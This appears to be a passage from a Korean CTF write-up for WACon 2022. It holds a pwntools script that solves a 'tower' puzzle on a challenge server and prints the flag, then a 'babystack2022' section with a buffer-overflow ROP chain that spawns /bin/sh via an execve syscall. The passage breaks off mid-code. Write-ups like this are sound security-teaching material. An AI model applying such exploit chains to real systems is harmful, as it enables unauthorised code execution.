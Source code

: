 ```python
    return answer


p = remote('175.123.252.156', 9999)
p.recvuntil(': ')
d = p.recvline()[:-1]
tower = d.split(',')
tower = list(map(lambda x:list(x), tower))
tower = list(map(lambda x: list(map(lambda y:int(y), x)), tower))
p.sendlineafter('> ', solver(tower, 3))

p.recvuntil(': ')
d = p.recvline()[:-1]
tower = d.split(',')
tower = list(map(lambda x:list(x), tower))
tower = list(map(lambda x: list(map(lambda y:int(y), x)), tower))
p.sendlineafter('> ', solver(tower, 5))

p.recvuntil(': ')
d = p.recvline()[:-1]
tower = d.split(',')
tower = list(map(lambda x:list(x), tower))
tower = list(map(lambda x: list(map(lambda y:int(y), x)), tower))
p.sendlineafter('> ', solver(tower, 9))


p.interactive()
```

__Flag__ : `WACon{y0u_crushed_th3_tow3rs}`



## babystack2022

올려준 링크대로 바로 BOF가 일어난다.

중간에 BOF로 덮히는 변수들에 유의해서 RIP control을 하면 된다.

```python
from pwn import *

syscall = 0x4e29b4
binsh = 0x8B0298
poprdi = 0x000000000041ab0f
poprsi = 0x0000000000587d19
poprdx = 0x00000000005b0972
poprax = 0x00000000005a3cf1
open_ = 0x419680
read = 0x419D50

pay = b"A" * 0x20

pay += p64(poprdi) + p64(binsh)
pay += p64(poprsi) + p64(0x8b02d0)
pay += p64(poprdx) + p64(0)
pay += p64(poprax) + p64(59)
pay += p64(syscall)


'''
pay += p64(poprdi) + p64(binsh)
pay += p64(poprsi) + p64(0)
pay += p64(poprdx) + p64(0)
pay += p64(poprax) + p64(59)
```